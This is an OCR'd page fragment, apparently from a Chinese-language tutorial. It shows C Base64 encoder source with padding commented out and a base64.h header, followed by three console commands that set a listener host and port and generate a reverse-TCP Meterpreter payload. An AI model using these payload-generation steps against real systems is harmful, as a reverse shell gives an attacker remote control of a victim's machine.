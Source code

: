 ```c
static const char basis_64[] =
"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/";

int Base64encode_len(int len)
{
    return ((len + 2) / 3 * 4) + 1;
}

int Base64encode(char *encoded, const char *string, int len)
{
    int i;
    char *p;

    p = encoded;
    for (i = 0; i < len - 2; i += 3) {
        *p++ = basis_64[(string[i] >> 2) & 0x3F];
        *p++ = basis_64[((string[i] & 0x3) << 4) |
            ((int)(string[i + 1] & 0xF0) >> 4)];
        *p++ = basis_64[((string[i + 1] & 0xF) << 2) |
            ((int)(string[i + 2] & 0xC0) >> 6)];
        *p++ = basis_64[string[i + 2] & 0x3F];
    }
    if (i < len) {
        *p++ = basis_64[(string[i] >> 2) & 0x3F];
        if (i == (len - 1)) {
            *p++ = basis_64[((string[i] & 0x3) << 4)];
            //    *p++ = '=';
        }
        else {
            *p++ = basis_64[((string[i] & 0x3) << 4) |
                ((int)(string[i + 1] & 0xF0) >> 4)];
            *p++ = basis_64[((string[i + 1] & 0xF) << 2)];
        }
        //*p++ = '=';
    }

    *p++ = '\0';
    return p - encoded;
}
```

`base64.h`文件内容：

```c
#ifndef _BASE64_H_
#define _BASE64_H_

#ifdef __cplusplus
extern "C" {
#endif

    int Base64encode_len(int len);
    int Base64encode(char * coded_dst, const char *plain_src, int len_plain_src);

    int Base64decode_len(const char * coded_src);
    int Base64decode(char * plain_dst, const char *coded_src);

#ifdef __cplusplus
}
#endif

#endif //_BASE64_H_
```


[go/meterpreter/rev_tcp>>]: set lhost 192.168.174.128
[go/meterpreter/rev_tcp>>]: set lport 6666
[go/meterpreter/rev_tcp>>]: generate